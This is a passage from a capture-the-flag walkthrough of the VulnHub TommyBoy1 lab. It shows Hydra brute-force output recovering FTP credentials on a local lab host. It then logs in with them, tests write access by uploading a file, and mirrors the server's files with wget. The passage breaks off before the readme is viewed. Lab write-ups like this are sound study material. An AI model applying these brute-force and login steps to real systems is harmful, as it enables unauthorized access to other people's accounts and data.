 	[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries (l:1/p:25), ~2 tries per task
	[DATA] attacking ftp://192.168.56.129:65534/
	[65534][ftp] host: 192.168.56.129   login: nickburns   password: nickburns
	1 of 1 target successfully completed, 1 valid password found
	```
	- nickburns:nickburns
## Port 65534 (FTP)
1. Access FTP w/ nickburns:nickburns, check for write access
	```
	┌──(root💀kali)-[~/vulnHub/TommyBoy1/192.168.56.129/loot/ftp]
	└─# ftp -nv $ip 65534
	Connected to 192.168.56.129.
	220 Callahan_FTP_Server 1.3.5
	ftp> user nickburns
	331 Password required for nickburns
	Password: 
	230 User nickburns logged in
	Remote system type is UNIX.
	Using binary mode to transfer files.
	ftp> put test 
	local: test remote: test
	200 PORT command successful
	150 Opening BINARY mode data connection for test
	226 Transfer complete
	ftp> dir
	200 PORT command successful
	150 Opening ASCII mode data connection for file list
	-rw-rw-r--   1 nickburns nickburns      977 Jul 15  2016 readme.txt
	-rw-r--r--   1 nickburns nickburns        0 Jan 18 08:10 test
	226 Transfer complete
	ftp> 
	```
	- We have write access
2. Download all files
	```
	┌──(root💀kali)-[~/vulnHub/TommyBoy1/192.168.56.129/loot/ftp]
	└─# wget -m --no-passive ftp://nickburns:nickburns@$ip:65534
	--2022-01-18 16:44:57--  ftp://nickburns:*password*@192.168.56.129:65534/
			   => ‘192.168.56.129:65534/.listing’
	Connecting to 192.168.56.129:65534... connected.
	Logging in as nickburns ... Logged in!
	```
3. View `readme.txt`